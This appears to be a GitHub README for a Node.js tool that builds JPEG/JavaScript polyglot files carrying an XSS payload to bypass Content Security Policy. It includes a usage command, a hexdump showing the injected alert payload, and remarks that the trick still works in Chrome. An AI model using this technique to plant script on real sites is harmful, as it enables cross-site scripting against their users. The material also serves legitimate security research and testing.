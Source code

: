 # JPGPolyglotGenerate <!-- Developed by: C. Swiers -->
Tool inspired by[^1]: https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

This automates the process. Use any[^2] jpg file and add a XSS payload to it:
```bash
nodejs jpg-polyglot-generate.js file.jpg file-xss.jpg 'alert("XSS");'
```

Optionally check output with:
```bash
xxd file-xss.jpg | grep -C5 aler
00002ee0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002ef0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f00: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f10: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f20: 0000 0000 0000 0000 0000 0000 0000 fffe  ................
00002f30: 0014 2a2f 3d61 6c65 7274 2822 5853 5322  ..*/=alert("XSS"
00002f40: 293b 2f2a ffe1 172a 4578 6966 0000 4d4d  );/*...*Exif..MM
00002f50: 002a 0000 0008 0007 0112 0003 0000 0001  .*..............
00002f60: 0001 0000 011a 0005 0000 0001 0000 0062  ...............b
00002f70: 011b 0005 0000 0001 0000 006a 0128 0003  ...........j.(..
00002f80: 0000 0001 0002 0000 0131 0002 0000 001c  .........1......
```
[^1]: This and many other articles referencing this one mention: __Mozilla are fixing this in Firefox 51.__, however everyone forgets to mention this still works in Chrome and other browsers!
[^2]: Make sure it does not contain the sequence 2a2f. Depending on the location in the file the exploit might stil work, but the image will be broken and won't look pretty:
`xxd file.jpg | grep "2a2f"`. If this command has any output find another jpg file, otherwise continue.
